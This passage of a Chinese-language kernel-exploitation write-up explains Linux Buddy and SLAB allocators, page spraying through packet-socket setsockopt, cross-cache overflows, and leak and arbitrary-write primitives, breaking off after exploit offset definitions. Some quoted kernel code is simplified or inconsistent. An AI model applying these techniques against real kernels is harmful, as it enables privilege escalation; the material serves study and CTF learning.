

**详细函数调用关系**：

1. **packet_setsockopt()**：处理socket选项设置
2. **packet_set_ring()**：设置环形缓冲区
3. **alloc_pg_vec()**：分配页面向量
4. **alloc_one_pg_vec_page()**：分配单个页面
5. **\_\_get_free_pages()**：Buddy分配器的核心接口

**alloc_one_pg_vec_page函数实现**：

```c
static struct page *alloc_one_pg_vec_page(void)
{
    struct page *page;
    void *addr;

    addr = (void *)__get_free_pages(GFP_KERNEL | __GFP_ZERO,
                                    get_order(PG_vec_pages));
    if (!addr)
        return NULL;

    page = virt_to_page(addr);
    return page;
}
```

**\_\_get_free_pages函数**：
这个函数是Buddy分配器的核心接口，用于分配$$2^{\text{order}}$$个连续物理页。在`alloc_one_pg_vec_page()`中，通常以`GFP_KERNEL`标志调用`__get_free_pages()`，分配一个页（order=0）。

**大量分配消耗order 0内存**：
当大量调用`setsockopt`分配内存时，order 0的freelist会被快速消耗。当order 0的freelist为空时，Buddy分配器会从order 1的freelist中分割块，以此类推。

**内存消耗的数学表达**：
设系统初始有$$N$$个order 0空闲页。经过M次分配（每次分配1页），当$$M > N$$时，order 0的freelist耗尽。此时，Buddy分配器需要从更高order的freelist中分割内存块。设从order k的freelist中取一个块，这个块大小为$$2^k$$页。分配器将其分割为两个$$2^\text{(k-1)}$$页的块，一个放入order k-1的freelist，另一个继续分割，直到得到order 0的块分配给请求。

**Buddy分配器分割过程**：



#### 3-1-4. 页面堆喷原理

页面堆喷（Page Spraying）是一种通过大量分配内存页来影响物理内存布局的技术。其核心原理是利用Buddy分配器的行为特征，通过有节奏的分配和释放操作，使特定对象分配到预期的物理内存位置。

**页面堆喷的步骤**：

1. **消耗阶段**：大量分配内存页，消耗order 0的freelist，迫使Buddy分配器从更高order的freelist中分割内存。
2. **释放阶段**：有选择地释放部分内存页，在freelist中创造特定的空洞模式。
3. **目标分配阶段**：分配目标对象，这些对象会填充之前释放的空洞，从而与之前保留的内存页形成特定的相邻关系。

**页面堆喷的数学模型**：
设分配了$$2N$$个页，然后释放奇数索引的页（或偶数索引的页），那么freelist中将有$$N$$个空闲页，它们与$$N$$个已分配页交替排列。接下来分配目标对象时，它们会填充这些空闲页，从而与之前的分配页相邻。

**Buddy分配器的freelist管理**：

```c
/* Buddy分配器中的free_area结构 */
struct free_area {
    struct list_head free_list[MIGRATE_TYPES];  /* 按迁移类型分类的空闲链表 */
    unsigned long nr_free;  /* 空闲块数量 */
    unsigned long *map;     /* 位图，用于伙伴查找 */
};
```

**迁移类型**：
Linux内核将内存页按迁移类型分类，以减少内存碎片：

- `MIGRATE_UNMOVABLE`：不可移动页，如内核核心数据
- `MIGRATE_RECLAIMABLE`：可回收页，如文件缓存
- `MIGRATE_MOVABLE`：可移动页，如用户空间数据
- `MIGRATE_PCPTYPES`：per-CPU页缓存
- `MIGRATE_RESERVE`：保留页，用于紧急情况
- `MIGRATE_CMA`：连续内存分配器管理的页

**Buddy分配器的性能优化特性**：

1. **缓存友好**：通过per-CPU缓存减少锁竞争
2. **快速查找**：使用位图加速伙伴块查找
3. **智能合并**：自动合并空闲块减少碎片
4. **迁移感知**：根据页面迁移类型优化布局
5. **水位控制**：防止内存过度分配导致系统不稳定

### 3-2. SLAB分配器原理

#### 3-2-1. SLAB分配器基本架构

SLAB分配器是Linux内核中用于管理小块内存的分配器，由Jeff Bonwick在Solaris系统中首创，后引入Linux内核。它为频繁分配和释放的小对象提供了高效的内存管理机制。

**SLAB分配器的设计哲学**：

1. **对象缓存**：为每种常用对象类型创建专用缓存
2. **避免碎片**：通过固定大小的对象减少内存碎片
3. **快速分配**：通过预分配和缓存机制提高分配速度
4. **缓存友好**：优化对象布局提高缓存命中率

**SLAB分配器的关键概念**：

- **缓存（cache）**：存储特定类型和大小的对象，如`kmalloc-32`、`kmalloc-64`等
- **SLAB**：一个或多个连续页组成的内存块，被划分为多个相同大小的对象
- **对象**：缓存中分配和释放的基本单位
- **着色**：通过偏移对象起始地址减少缓存行冲突

**SLAB分配器的核心数据结构**：

```c
struct kmem_cache {
    struct array_cache *cpu_cache;        /* per-CPU缓存 */
    unsigned int size;                    /* 对象大小（包含元数据） */
    unsigned int objsize;                 /* 实际对象大小 */
    unsigned int offset;                  /* 空闲指针偏移 */
    struct kmem_list3 *nodelists[MAX_NUMNODES];  /* 节点列表 */
    unsigned int gfporder;                /* SLAB页数（2^order） */
    unsigned int colour;                   /* 着色数量 */
    unsigned int colour_off;               /* 着色偏移 */
    unsigned int freelist_size;            /* 空闲链表大小 */
    void (*ctor)(void *);                 /* 构造函数 */
    const char *name;                     /* 缓存名称 */
    struct list_head list;                /* 全局缓存链表 */
    /* ... 其他字段 ... */
};
```

**SLAB分配器的层次结构**：



#### 3-2-2. 对象分配与释放机制

SLAB分配器通过精心设计的分配和释放机制，实现了高效的内存管理和碎片控制。每个缓存都维护着三个SLAB链表，分别管理满SLAB、部分空SLAB和空SLAB。

**对象分配流程**：

1. 首先在per-CPU缓存中查找空闲对象
2. 如果per-CPU缓存为空，从节点缓存中批量获取对象
3. 如果节点缓存为空，从部分空SLAB链表中获取SLAB
4. 如果部分空SLAB链表为空，从空SLAB链表中获取SLAB
5. 如果空SLAB链表为空，从Buddy分配器分配新页创建SLAB

**对象释放流程**：

1. 对象释放到per-CPU缓存
2. 当per-CPU缓存超过阈值时，批量返回到节点缓存
3. 当节点缓存超过阈值时，将空闲对象返回给SLAB
4. 当SLAB变为完全空闲时，移动到空SLAB链表
5. 当空SLAB数量超过阈值时，将SLAB释放回Buddy分配器

**SLAB分配器的缓存对齐**：

```c
/* 缓存创建时的对齐计算 */
cachep->align = ARCH_KMALLOC_MINALIGN;
if (size < ARCH_KMALLOC_MINALIGN)
    size = ARCH_KMALLOC_MINALIGN;
```

**SLAB分配器的着色机制**：
着色机制通过在SLAB中引入偏移，使不同SLAB中的对象起始地址不同，从而减少缓存行冲突：

```c
static int cache_estimate(unsigned long gfporder, size_t size,
                          size_t align, unsigned long flags,
                          size_t *left_over)
{
    unsigned int num, slab_size, wasted;

    /* 计算SLAB中可以容纳的对象数量 */
    num = (PAGE_SIZE << gfporder) / (size + sizeof(void *));

    /* 计算着色偏移 */
    wasted = (PAGE_SIZE << gfporder) - num * (size + sizeof(void *));
    if (wasted < (PAGE_SIZE << gfporder) / 8)
        return 0;  /* 浪费较少，不进行着色 */

    cachep->colour = wasted / cachep->colour_off;
    cachep->colour_off = align;

    return 1;
}
```

**SLAB内存布局示意图**：

```
单个SLAB内存布局（以kmalloc-64为例）：
+-----------------------------------+
| SLAB描述符 (struct slab)          |
+-----------------------------------+
| 对象0 (64字节)                    |
+-----------------------------------+
| 对象1 (64字节)                    |
+-----------------------------------+
| 对象2 (64字节)                    |
+-----------------------------------+
| ...                               |
+-----------------------------------+
| 对象N-1 (64字节)                  |
+-----------------------------------+
| 空闲对象链表                      |
+-----------------------------------+
| 着色区域 (对齐填充)               |
+-----------------------------------+
```

#### 3-2-3. SLAB分配器的高级特性

**调试功能**：
SLAB分配器提供多种调试功能，帮助检测内存相关错误：

1. **红区检测**：在对象前后添加特殊字节，检测缓冲区溢出
2. **对象毒化**：在释放对象时填充特殊值，检测释放后使用
3. **追踪功能**：记录分配和释放的调用栈
4. **统计信息**：收集分配统计信息用于性能分析

**调试配置示例**：

```c
/* 启用调试功能的缓存创建 */
struct kmem_cache *debug_cache = kmem_cache_create(
    "debug_cache",
    size,
    align,
    SLAB_RED_ZONE | SLAB_POISON | SLAB_STORE_USER,
    ctor);
```

**NUMA感知**：
在NUMA系统中，SLAB分配器为每个节点维护独立的缓存，减少跨节点访问：

```c
struct kmem_list3 {
    struct list_head slabs_partial;  /* 部分空SLAB */
    struct list_head slabs_full;     /* 满SLAB */
    struct list_head slabs_free;     /* 空SLAB */
    unsigned long free_objects;      /* 空闲对象数量 */
    unsigned int free_limit;         /* 空闲对象限制 */
    unsigned int colour_next;        /* 下一个着色值 */
    spinlock_t list_lock;           /* 链表锁 */
};
```

**SLAB分配器的变体**：

1. **SLAB**：经典的SLAB分配器
2. **SLUB**：简化的SLAB分配器，减少内存开销
3. **SLOB**：简单的链表分配器，用于嵌入式系统

**SLUB分配器的优势**：

- 更简单的数据结构
- 更好的性能
- 减少内存开销
- 更好的调试支持

### 3-3. 物理内存布局控制

#### 3-3-1. 虚拟内存与物理内存映射

Linux内核使用虚拟内存地址，但物理内存的布局对内存操作至关重要。通过页面堆喷技术，可以影响物理内存的布局，从而控制哪些对象在物理上相邻。

**虚拟地址到物理地址的转换**：

```c
/* 虚拟地址到物理地址的转换 */
phys_addr_t virt_to_phys(void *vaddr)
{
    return __pa(vaddr);
}

/* 物理地址到虚拟地址的转换 */
void *phys_to_virt(phys_addr_t paddr)
{
    return __va(paddr);
}
```

**页表条目结构**：

```
页表条目（PTE）格式（x86_64）：
63-52: 未使用
51-12: 物理页帧号（PFN）
11-9: 保留
8: G - 全局页
7: PAT - 页属性表
6: D - 脏位
5: A - 访问位
4: PCD - 缓存禁用
3: PWT - 写直达
2: U/S - 用户/超级用户
1: R/W - 读/写
0: P - 存在位
```

**物理内存布局的控制策略**：

1. 通过大量分配消耗物理内存，打乱原有的空闲内存分布
2. 有选择地释放部分内存，创造特定的空闲块模式
3. 在合适的时机分配目标对象，使其填充到预期的空闲块中

**控制成功的关键因素**：

- 分配和释放的时机：确保在目标对象分配时，预期的空闲块是唯一可用的或最有可能被分配的
- 分配的数量：大量分配可以提高概率，但也可能受到系统内存限制
- 分配的顺序：按照Buddy分配器的分配顺序，合理安排分配和释放的顺序

#### 3-3-2. 利用Buddy分配器行为特征

Buddy分配器在分割和合并内存块时遵循特定的算法，这可以被用来预测和控制内存布局。

**Buddy分配器的分割行为**：
当从order k的freelist中取一个块用于分配时，分配器会递归地分割这个块，直到得到所需大小的块。每次分割都会产生两个伙伴块，一个用于分配，另一个放入低一级的freelist。

**利用分割行为**：
通过控制分配请求的大小和顺序，可以影响Buddy分配器的分割行为，从而在freelist中创建特定的块模式。例如，连续分配多个1页的块，可能导致Buddy分配器从较高order的freelist中分割，产生一系列连续的伙伴块。

**Buddy分配器的合并行为**：
释放内存块时，如果其伙伴块也是空闲的，则两个块会合并为一个更大的块，放入高一级的freelist。

**利用合并行为**：
通过有节奏地释放内存块，可以控制Buddy分配器的合并行为，避免产生过大的连续空闲块，从而保持内存的碎片化，有利于控制小对象的相邻关系。

**Buddy分配器的分割算法**：

```c
static inline struct page *__rmqueue(struct zone *zone, unsigned int order,
                                     int migratetype)
{
    struct free_area *area;
    unsigned int current_order;
    struct page *page;

    for (current_order = order; current_order < MAX_ORDER; ++current_order) {
        area = &(zone->free_area[current_order]);
        if (list_empty(&area->free_list[migratetype]))
            continue;

        page = list_entry(area->free_list[migratetype].next,
                          struct page, lru);
        list_del(&page->lru);
        rmv_page_order(page);
        area->nr_free--;
        expand(zone, page, order, current_order, area, migratetype);
        set_page_private(page, migratetype);
        return page;
    }

    return NULL;
}
```

**Buddy分配器的合并算法**：

```c
static inline void __free_one_page(struct page *page,
                                   unsigned long pfn,
                                   struct zone *zone, unsigned int order,
                                   int migratetype)
{
    unsigned long page_idx;
    unsigned long combined_idx;
    unsigned long uninitialized_var(buddy_idx);
    struct page *buddy;

    while (order < MAX_ORDER-1) {
        buddy_idx = __find_buddy_index(page_idx, order);
        buddy = page + (buddy_idx - page_idx);

        if (!page_is_buddy(page, buddy, order))
            break;

        list_del(&buddy->lru);
        zone->free_area[order].nr_free--;
        rmv_page_order(buddy);
        combined_idx = buddy_idx & page_idx;
        page = page + (combined_idx - page_idx);
        page_idx = combined_idx;
        order++;
    }
    set_page_order(page, order);
    list_add(&page->lru, &zone->free_area[order].free_list[migratetype]);
    zone->free_area[order].nr_free++;
}
```

### 3-4. 跨缓存技术原理

#### 3-4-1. Cross-Cache基本概念

Cross-Cache技术是指通过操作一个缓存中的对象来影响另一个缓存中的对象。这通常发生在不同缓存的对象在物理内存上相邻时。理解Cross-Cache技术需要深入了解SLAB分配器的内存布局和缓存隔离机制。

**Cross-Cache的条件**：

1. 两个不同缓存的对象分配在相同的物理内存页中
2. 或者两个对象分配在相邻的物理内存页中
3. 一个缓存对象的操作（如缓冲区溢出）可以跨越缓存边界影响相邻缓存对象

**Cross-Cache的内存布局特征**：
当不同缓存的对象在物理内存上相邻时，它们的内存布局如下：

```
物理内存页布局：
+----------------+----------------+----------------+
| 缓存A对象1     | 缓存A对象2     | 缓存B对象1     |
+----------------+----------------+----------------+
| 缓存B对象2     | 缓存A对象3     | 缓存B对象3     |
+----------------+----------------+----------------+
```

**Cross-Cache的数学表达**：
设缓存A的对象大小为$$S_A$$，缓存B的对象大小为$$S_B$$。当它们分配在相邻的内存区域时，从缓存A对象起始地址到缓存B对象的偏移为：

$$
\Delta = \lceil \frac{S_A}{\text{对齐值}} \rceil \times \text{对齐值}
$$

**Cross-Cache内存布局图示**：



#### 3-4-2. 缓存隔离与边界效应

尽管SLAB分配器通过不同的缓存实现对象隔离，但物理内存的连续性可能导致缓存间的边界效应。这种边界效应在某些情况下可能被利用来实现跨缓存操作。

**缓存隔离机制**：
SLAB分配器通过以下机制实现缓存隔离：

1. 不同的缓存使用独立的SLAB链
2. 每个缓存有自己的对象大小和对齐要求
3. 缓存间不共享空闲对象

**边界效应原理**：
当不同缓存的对象分配到相邻的物理内存页时，一个缓存对象的缓冲区溢出可能覆盖相邻缓存对象的关键字段。这种边界效应打破了缓存间的逻辑隔离，可能导致安全漏洞。

**Cross-Cache的影响范围**：
Cross-Cache的影响范围取决于多个因素：

1. 对象大小差异
2. 内存对齐要求
3. 物理内存布局
4. 缓存分配策略

**缓存分配策略的影响**：
不同的缓存分配策略会影响Cross-Cache的可能性：

1. **按需分配**：根据请求频率动态调整缓存大小
2. **预分配**：预先分配一定数量的对象
3. **缓存回收**：定期回收空闲对象

### 3-5. 内存操作原语

#### 3-5-1. 信息泄露原语

信息泄露原语通过读取相邻内存区域的内容获取敏感信息。在Cross-Cache场景中，通过缓冲区溢出修改相邻对象的指针，可以实现任意地址读取功能。

**信息泄露机制**：

1. 通过缓冲区溢出修改相邻对象的指针字段
2. 将指针指向目标内存区域
3. 通过正常操作读取指针指向的内容
4. 获取目标内存区域的信息

**信息泄露的数学表达**：
设目标地址为$$T$$，通过溢出修改指针$$P$$指向$$T$$，然后通过读取操作获取$$T$$处的内容：

$$
\text{泄露信息} = \text{read}(P) = \text{read}(T)
$$

**信息泄露的可靠性因素**：

1. 指针修改的精确性
2. 目标地址的有效性
3. 读取操作的正确性
4. 内存访问权限

**信息泄露流程图**：



#### 3-5-2. 任意地址写原语

任意地址写原语通过控制相邻对象的关键字段实现对任意内存地址的写入操作。这通常需要构建复杂的控制结构来实现精确的内存写入。

**任意地址写机制**：

1. 通过信息泄露获取目标地址
2. 构建控制结构指向目标地址
3. 通过正常操作写入控制结构
4. 实现对目标地址的写入

**任意地址写的数学表达**：
设目标地址为$$T$$，写入值为$$V$$，通过控制结构$$C$$实现对$$T$$的写入：

$$
\text{write}(C, V) \rightarrow \text{write}(T, V)
$$

**任意地址写的技术挑战**：

1. 地址获取的准确性
2. 控制结构的构建
3. 写入操作的可靠性
4. 系统稳定性的维护

**任意地址写流程图**：



### 3-6. 内存管理系统的层次结构

Linux内核的内存管理系统采用分层架构，从用户空间到物理内存页，形成了完整的内存管理链条。理解这个层次结构对于掌握内存操作原理至关重要。

**内存管理系统的完整层次结构**：



**各层次的功能描述**：

1. **用户空间**：应用程序运行的环境，通过系统调用与内核交互
2. **系统调用接口**：用户空间与内核空间的桥梁，提供内存操作接口
3. **虚拟文件系统VFS**：统一文件系统接口，包括内存映射文件操作
4. **内存管理子系统**：内核内存管理的核心，协调各个分配器的工作
5. **SLAB分配器**：管理小块内存，提供kmalloc等接口
6. **vmalloc分配器**：管理虚拟连续但物理不连续的内存区域
7. **页表管理**：管理虚拟地址到物理地址的映射
8. **Buddy分配器**：管理物理内存页，按order组织空闲链表
9. **物理内存页**：内存管理的基本单位，通常为4KB
10. **硬件物理内存**：实际的物理内存芯片
11. **MMU页表**：内存管理单元的页表，实现虚拟地址转换
12. **TLB缓存**：页表条目的缓存，加速地址转换
13. **CPU内存访问**：CPU对内存的读写操作

**内存管理的关键特性**：

1. **分层管理**：不同层次负责不同粒度的内存管理
2. **缓存优化**：通过多级缓存提高内存访问效率
3. **碎片控制**：通过Buddy和SLAB减少内存碎片
4. **性能优化**：通过per-CPU缓存减少锁竞争
5. **安全隔离**：通过地址空间隔离保护系统安全

### 3-7. 物理内存布局控制技术

#### 3-7-1. 页面堆喷技术详解

页面堆喷技术通过精确控制内存分配和释放的时序，实现特定的物理内存布局。这种技术利用了Buddy分配器的行为特征和SLAB分配器的分配策略。

**页面堆喷的三个阶段**：

1. **内存消耗阶段**：
    - 创建大量socket连接
    - 通过setsockopt分配大量内存页
    - 消耗系统的order 0空闲页
    - 迫使Buddy分配器从更高order分割内存

2. **选择性释放阶段**：
    - 释放部分已分配的内存页
    - 在freelist中创造特定模式
    - 形成交替的空闲/已分配区域
    - 为后续分配创造特定条件

3. **目标对象分配阶段**：
    - 在特定时机分配目标对象
    - 利用freelist中的特定模式
    - 使目标对象分配到预期位置
    - 构建所需的相邻关系

**页面堆喷时序图**：

```mermaid
gantt
    title 页面堆喷技术时序图
    dateFormat HH:mm
    axisFormat %H:%M

    section 内存消耗阶段
    分配1000个socket连接 :00:00, 5m
    调用setsockopt分配内存 :00:01, 4m

    section 选择性释放阶段
    释放奇数页socket内存 :05:00, 2m
    分配seq_file对象 :05:30, 2m
    释放偶数页socket内存 :07:00, 2m
    分配castaway_t对象 :07:30, 2m

    section 目标对象相邻验证
    检查内存布局 :09:00, 2m
    验证溢出条件 :10:00, 1m
```

#### 3-7-2. 内存布局概率分析

内存布局的成功率可以通过概率模型进行分析。设单次分配使目标对象相邻的概率为$$p$$，进行$$n$$次独立尝试，至少一次成功的概率为：

$$
P_{\text{成功}} = 1 - (1 - p)^n
$$

**影响概率的因素**：

1. **系统内存状态**：空闲内存越多，可控性越强
2. **分配数量**：分配数量越多，成功概率越高
3. **分配时序**：精确的时序控制可以提高概率
4. **对象大小**：对象大小影响对齐和布局
5. **系统负载**：系统负载影响分配器行为

**概率计算示例**：
设$$p = 0.01$$（1%的成功率），进行$$n = 100$$次尝试：

$$
P_{\text{成功}} = 1 - (1 - 0.01)^{100} = 1 - 0.366 = 0.634
$$

成功概率约为63.4%

进行$$n = 500$$次尝试：

$$
P_{\text{成功}} = 1 - (1 - 0.01)^{500} = 1 - 0.0066 = 0.9934
$$

成功概率约为99.34%

#### 3-7-3. 内存操作可靠性保障

为确保内存操作的可靠性，需要考虑多个技术因素：

1. **错误检测与恢复**：
    - 实现完善的错误检测机制
    - 设计优雅的错误恢复路径
    - 避免系统崩溃或异常

2. **性能优化**：
    - 减少不必要的内存操作
    - 优化分配和释放的时序
    - 提高整体执行效率

3. **系统稳定性**：
    - 避免内存泄漏
    - 确保资源正确释放
    - 维护系统稳定运行

4. **兼容性考虑**：
    - 适应不同内核版本
    - 处理架构差异
    - 支持不同配置选项

### 3-8. 内存操作原语总结

本章节系统性地阐述了Linux内核内存管理机制的完整体系架构，从Buddy分配器的物理内存页管理到SLAB分配器的小块内存分配，再到物理内存布局控制技术和跨缓存操作原理，形成了完整的内存操作理论框架。Buddy分配器通过order层级结构和伙伴块分割合并算法实现高效的物理内存管理，SLAB分配器则通过缓存机制和per-CPU优化提供高性能的小内存分配服务。页面堆喷技术利用Buddy分配器的行为特征，通过有节奏的分配和释放操作影响物理内存布局，为跨缓存操作创造条件。Cross-Cache技术则突破了缓存间的逻辑隔离，使不同缓存的对象在物理内存相邻时能够相互影响。信息泄露原语和任意地址写原语基于这些底层机制，构建了完整的内存操作能力链。整个内存管理系统形成了从用户空间到硬件物理内存的多层架构，各层次协同工作实现高效、安全、稳定的内存管理。这些内存操作原理不仅为理解特定技术实现提供了理论基础，还展现了现代操作系统内存管理机制的复杂性和精巧性，为系统性能优化、内存安全分析和资源管理设计提供了重要的技术参考。

## 4. 实战演练

exploit核心代码如下：

```c
/* Kernel symbol offsets */
#define __ENTRY_TEXT_END (0xffffffff81401429 + 31194)
#define MODULES 0xffffffff81ac49e0
#define UDP_PROT 0xffffffff81addc00
#define UDP_SENDMSG 0xffffffff81340d30
#define UDP_RECVMSG 0xffffffff813419b0
